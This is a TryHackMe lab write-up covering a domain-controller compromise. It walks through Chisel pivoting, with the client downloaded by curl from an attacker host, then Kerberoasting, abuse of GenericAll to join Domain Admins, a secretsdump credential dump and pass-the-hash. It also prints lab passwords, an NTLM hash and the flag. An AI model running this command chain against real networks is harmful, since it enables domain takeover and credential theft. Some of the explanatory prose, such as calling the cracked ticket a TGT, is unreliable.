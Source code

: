 # DC.TRYHACKME.LOC

## Machine Info





## Pivoting&#x20;

The next scope of the PT is the domain controller. An attacker that obtained the control of a Domain Workstation and of a Domain User can try access via SMB to check if the user has the privileges to enumerate the DC.

But the attacker machine has blocked by a firewall and it's not be abble to connect directly. An attacker can perform the Pitoving technique to using the compromised machine as pivot machine and connect to the DC.

### Pivoting with Chisel

An attacker can use Chisel tool to create a pivoting tunnel.

Start chisel server into attacker machine

```bash
chisel server --port 8000 -reverse
```

Then download from a attacker server the chisel's executable into Workstation machine.

```
curl http://10.250.1.6/chisel_1.10.1_windows_amd64 -o chisel.exe
```

Now an attacker can execute the file and create the tunner betweek attacker and dc machine.

```
.\chisel.exe client 10.250.1.6:8000 R:socks
```

with this established tunnel an attacker can enumerate the DC machine to test if the pivoting is working.

```
proxychains nxc smb 10.200.150.10 -u "test" -p 'test'
```

Now the attacker's machine is connected to the DC.



## Initial Access

### Bloodhound enumeration

An attacker with a valid Domain User, can enumerate the Domain's information using the tool `bloodhound`.

This command is used for get all information with the bloodhound-python ingester.

{% code overflow="wrap" %}
```bash
proxychains bloodhound-python -c all -ns 10.200.150.10 -dc DC.TRYHACKME.LOC -d TRYHACKME.LOC --zip -u 'John@TRYHACKME.LOC' -p 'VerySafePassword!'
```
{% endcode %}

Once the attacker obtained the zip file with all information can visualize them to the Bloodhound web interface.

### Kerbestoast Attack

An attacker looking the Domain information by Bloodhound can see that the `J.PHILLIPS` users is a kerberostable user, it means that he has a **Service Principal Name (SPN)** enabled, and the attacker can obtain a TS for that account.

```
Serviceprincipalnames: HTTP/csm.tryhackme.loc
```

With the follow commands an attacker retrives the TGT ticket hash.

{% code overflow="wrap" %}
```bash
proxychains impacket-GetUserSPNs -request -dc-ip 10.200.150.10 TRYHACKME.LOC/John -outputfile hashes.kerberoast
```
{% endcode %}

An attacker now can crack the TGT(?????????????????) offline with JohnTheRipper

```bash
john hashes.kerberoast --wordlist=/usr/share/wordlists/rockyou.txt

Welcome1         (?)  
```





## Privilege Escalation

### GenericAll privesc

Once the attacker has compromise the kerberostable account cracking his password, can look on the bloodhound if this account has some privilege to exploit to obtained more elevated privileges.

The attacker in this way can discover that the user `J.PHILLIPS` has the `GenericAll` Privilege for the Domain Admins groups.

With this privilege an attacker can add the compromised account to the Domain Admins group and became ad Domain Admin.

{% code title="" overflow="wrap" %}
```
proxychains net rpc group addmem "Domain Admins" "J.PHILLIPS" -U "TRYHACKME.LOC"/"J.PHILLIPS" -S "DC.TRYHACKME.LOC"

Password for [TRYHACKME.LOC\J.PHILLIPS]: REDACTED
```
{% endcode %}

Instead, with this command an attacker can check if the user's has been add to the Domain Admins group.&#x20;

{% code overflow="wrap" %}
```
net rpc group members "Domain Admins" -U TRYHACKME.LOC/J.PHILLIPS -S "DC.TRYHACKME.LOC"

Password for [TRYHACKME.LOC\J.PHILLIPS]: REDACTED
```
{% endcode %}

Once the compromised user has been add to the Domain Admin, his can access to the DC via WinRM, executing this command:

```bash
proxychains evil-winrm -i DC.TRYHACKME.LOC -u 'J.PHILLIPS' -p 'Welcome1'
```



### Creds Dump

As Domain Admin an attacker can dump the credentials stored into DC using `impacket-secretsdump` tool.

```bash
proxychains impacket-secretsdump TRYHACKME.LOC/J.PHILLIPS@10.200.150.10

Password: REDACTED
```

With Administrator's NTLM hash we can perform Pass-the-Hash technique to access to DC as Administrator.&#x20;

{% code overflow="wrap" %}
```
proxychains evil-winrm -i DC.TRYHACKME.LOC -u 'Administrator' -H '4b8a60a239c12f59c7643deb31896466'
```
{% endcode %}

In this way, an attacker makes access to DC machine as Administrator and has compromised the entire domain and machine.



In case that the domain is a multi-trust domain, an attacker can use krbtgt hash to forge a GoldenTicket and escalate privilege to other Domain's trust.



### DC flag

```
more C:\flag.txt
THM{2c894ebf-e224-404b-a114-3106987153de}
```



